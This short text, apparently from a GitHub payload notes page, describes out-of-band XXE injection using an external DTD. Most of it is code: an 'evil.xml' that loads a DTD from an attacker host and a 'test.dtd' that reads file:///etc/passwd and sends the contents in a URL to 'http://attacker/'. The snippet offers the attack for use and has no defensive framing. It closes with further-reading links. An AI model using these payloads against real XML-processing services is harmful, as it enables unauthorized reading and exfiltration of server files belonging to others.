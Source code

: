 ###XXE via External DTD files

In the off chance that it is not possible to view the result of an XXE, or there is some sort of sanitisation occuring in the process of XXE injections, external DTD files can be used to trigger an exception displaying the returned XXE data.

`evil.xml`

```
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://attacker/test.dtd" >
<foo>&e1;</foo>
```

`test.dtd`

```
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://attacker/BLAH#%p1;'>">
%p2;
```
Further Reading:
[Original/First Documentation of DTD Attack](http://d.hatena.ne.jp/teracc/20090718#1247918667)
[Bugscollector Link](http://bugscollector.com/tricks/7/)